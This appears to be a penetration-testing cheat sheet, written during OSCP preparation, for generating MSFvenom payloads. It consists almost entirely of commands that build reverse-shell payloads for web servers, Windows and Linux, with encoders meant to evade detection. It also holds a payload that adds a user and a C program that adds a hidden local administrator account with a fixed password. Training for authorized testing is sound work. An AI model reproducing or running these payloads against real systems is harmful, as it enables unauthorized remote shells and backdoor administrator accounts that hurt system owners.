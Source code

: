 ```yaml
---
description: Generate payload with MSFvenom
---
```


# Generate Payload

### Listing

```bash
msfvenom -l payloads # Payloads
msfvenom -l encoders # Encoders
msfvenom -l platforms # Platforms
msfvenom -l formats # Formats
```

{% hint style="info" %}
**Note**: I created this page during my OSCP preparation. All payloads here are for gaining a reverse shell through Netcat, as Metasploit (or Meterpreter) is prohibited.
{% endhint %}

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe -o adduser.exe
```

Execute Command

{% code overflow="wrap" %}
```bash
# x86
msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -e x86/shikata_ga_nai -f exe -o payload.exe
# x64
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD="calc.exe" -f exe -e x64/xor_dynamic -o payload-x64.exe
```
{% endcode %}

Reverse Shell

{% code overflow="wrap" %}
```bash
# x86
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4443 -f exe -e x86/shikata_ga_nai -o reverse86.exe
# x64
msfvenom --payload windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4443 --format exe --encoder x64/xor_dynamic --out reverse64.exe
```
{% endcode %}

### Linux

{% code overflow="wrap" %}
```bash
# x86
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=1337 -e x86/shikata_ga_nai -f elf -o asuka-x86.elf
# x64
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -e x64/xor_dynamic -f elf -o asuka-64.elf
```
{% endcode %}

### MSFvenom Payload Creator (MSFPC)

* [https://github.com/g0tmi1k/msfpc](https://github.com/g0tmi1k/msfpc)

### Add Windows User

**adduser.c**

{% code overflow="wrap" %}
```c
#include <stdlib.h>

int main ()
{
	int i;
	i = system ("net user admoon Linuxsec#1337 /add");
	i = system ("net localgroup administrators admoon /add");

		return 0;
}
```
{% endcode %}

Compile:

{% code overflow="wrap" %}
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
{% endcode %}
